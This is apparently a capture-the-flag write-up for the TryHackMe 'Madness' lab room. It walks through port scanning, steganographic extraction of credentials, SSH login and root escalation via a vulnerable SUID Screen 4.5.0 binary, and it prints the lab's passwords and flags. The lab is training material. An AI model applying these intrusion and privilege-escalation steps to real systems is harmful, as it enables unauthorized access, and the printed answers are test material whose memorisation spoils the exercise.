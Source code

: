 # <div align="center">[Madness](https://tryhackme.com/r/room/madness)</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/044d66b7-a10d-45ac-9790-2df9df4478c2" height="200"></img>
</div>

## Let start with Scanning The IP ```nmap -sC -sV <IP>```
```
death@esther:~$ nmap -sC -sV 10.10.81.42
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 15:36 IST
Nmap scan report for 10.10.81.42
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### On apache2 default page there is a comment and Path of img.
<div align="center">
  <img src="https://github.com/user-attachments/assets/0d7cda38-0438-4380-8cf5-5fb5b05902c5" height=""></img>
</div>


### Let download this imge
```
wget http://10.10.81.42/thm.jpg
```
### Its not an image as i examined the first 12 bits of and converted it to a **JPG** format.
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
### Let take look at this:
```
http://10.10.81.42/th1s_1s_h1dd3n
```
### Source code i got this ```http://Ip/th1s_1s_h1dd3n/?secret=```

<div align="center">
  <img src="https://github.com/user-attachments/assets/cd9f8dce-c50d-4732-a035-7c04232298ed" height=""></img>
</div>

### Doing this manually take a long time let automate this with help of python, I already created secret.py [tap here](https://github.com/Esther7171/THM-Walkthroughs/blob/main/Room/Madness/secret.py) 
```
death@esther:~$ python3 secret.py 
Enter IP:10.10.81.42
Found secret: 73
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>

</div>
</body>
</html>
```
```
y2RPJ4QaPF!B
```

### Let try steghide maybe this is the passphrase,[here](https://github.com/Esther7171/THM-Walkthroughs/blob/main/Room/Madness/thm.jpg)
```
death@esther:~$ steghide info thm.jpg
"thm.jpg":
  format: jpeg
  capacity: 1.0 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hidden.txt":
    size: 101.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
```
steghide extract -sf thm.jpg
```
### We got hidden.txt
```
death@esther:~$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```
### This username looks strange to me let try to decode this
```
echo -n "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
### this is ```Rot13``` cypher on cyberchef
<div align="center">
  <img src="https://github.com/user-attachments/assets/b76ced3d-fed9-4105-87bb-f69c036a6921" height=""></img>
</div>

### ```joker``` this is the real username.

### I have tried everthing but didn't find anything after help of some resource i found the lab [banner](https://github.com/Esther7171/THM-Walkthroughs/blob/main/Room/Madness/banner.jpg) contain some information. 
```
wget https://github.com/Esther7171/THM-Walkthroughs/blob/main/Madness/banner.jpg
```
```
death@esther:~$ steghide info banner.jpg 
"banner.jpg":
  format: jpeg
  capacity: 6.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "password.txt":
    size: 83.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
### It just a blank entry as passphase,
```
death@esther:~$ steghide extract -sf banner.jpg 
Enter passphrase: 
wrote extracted data to "password.txt".
```
### Let take a look at this password.txt
```
death@esther:~$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```
### Let log in with SSH.
* ### Username: ```joker```
* ### Password: ```*axA&GF8dP```
* ### ```ssh joker@<IP>```
```
death@esther:~$ ssh joker@10.10.81.42
The authenticity of host '10.10.81.42 (10.10.81.42)' can't be established.
ED25519 key fingerprint is SHA256:B0gcnLQ9MrwK4uUZINN4JI6gd+EofSsF2e8c5ZMDrwY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.81.42' (ED25519) to the list of known hosts.
joker@10.10.81.42's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Jan  5 18:51:33 2020 from 192.168.244.128
joker@ubuntu:~$ 
```
## User flag
```
cat user.txt 
```
```
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```
### Post Exploitation
```
find / -user root -perm -u=s 2>/dev/null
```
### Screen-4.5.0 is vulnerable for privesc.
```
ls -l /bin/screen*
```
### Let [exploit](https://github.com/Esther7171/THM-Walkthroughs/blob/main/Room/Madness/exploit.sh)
```
https://www.exploit-db.com/exploits/41154
```
### Copy the exploit
```
nano exploit.sh
```
### Past it & Run
```
sh 41154.sh
```
## Root flag
```
cat /root/root.txt
```
```
THM{5ecd98aa66a6abb670184d7547c8124a}
```

### Done !! 🙂
